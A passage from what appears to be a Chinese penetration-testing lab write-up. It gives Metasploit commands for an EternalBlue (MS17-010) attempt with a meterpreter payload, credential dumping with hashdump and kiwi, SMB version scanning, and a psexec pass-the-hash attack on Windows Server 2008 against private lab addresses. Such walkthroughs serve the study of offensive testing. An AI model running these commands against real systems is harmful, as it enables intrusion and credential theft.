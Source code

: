 <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8f31fb30a0e47d55da474843dabf9da3.jpeg"/><br/> 存在漏洞。<br/> 利用

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 192.168.52.138
run

```

失败。

#### 哈希传递攻击(PTH)

`hashdump`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7930d784b9e10a5ff7f48778a9441d9c.jpeg"/><br/> `load kiwi`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ac325c822d80913bb7d414b29c92ec0c.jpeg"/><br/> **psexec|hash传递**<br/> 探测445：

```
use auxiliary/scanner/smb/smb_version 
set rhost 192.168.52.138
set threads 40
run
set rhost 192.168.52.141
run

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/20d48a97149d5bb0561abc1a6c779ee4.jpeg"/><br/> exploit/windows/smb/psexec模块哈希传递攻击 Windows Server 2008

```
use exploit/windows/smb/psexec
set rhosts 192.168.126.188
set SMBUser administrator 
set smbpass 00000000000000000000000000000000:NTLM值

```

成功
